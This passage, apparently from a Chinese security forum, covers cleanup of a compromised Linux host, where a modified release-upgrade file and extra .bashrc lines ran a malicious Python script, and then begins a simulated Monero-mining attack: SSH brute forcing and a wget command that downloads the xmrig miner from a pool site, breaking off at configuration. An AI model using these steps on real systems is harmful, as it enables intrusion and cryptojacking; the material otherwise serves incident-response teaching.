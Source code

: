 ```php
history
```

使用查看 `alias` 命令查看也无异常

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-f820be61e370489e447a734440b17e4a4ff94b12.png)

再一次连接之后排查

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-571c62522359cb77dbc607804a56f3005f0fbefd.png)

发现执行了一个恶意的 python 脚本

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-87fb21e7be9a515fa7b0c5f3446c280f06683b4a.png)

搜索后发现在 `release-upgrade` 文件，修改了 ls 命令

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-967e8ff1206e04016efe0f342cd7fc46716f8dd4.png)

发现 `.bashrc` 文件

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-0d76cc452e3bc6fc482c4dabfc51b579a9f61a58.png)

找一个初始的文件对比发现多了 5 行

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-60e42dd543689fcd9dad1948e7e9c5868027b8dc.png)

删除、删除 `release-upgrade` 文件、重启

XMR挖矿攻击模拟
=========

模拟攻击流程
------

### SSH 爆破

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-615c9377fd05a791739dc558ec9f4010cd8bf18d.png)

### 上挖矿马

下载

```php
wget https://download.c3pool.org/xmrig_setup/raw/master/xmrig.tar.gz
```

解压

```php
tar -zxvf xmrig.tar.gz
```

解压后我们得到俩个文件，一个是 xmrig 主程序，一个是 config. Json 配置文件。

配置
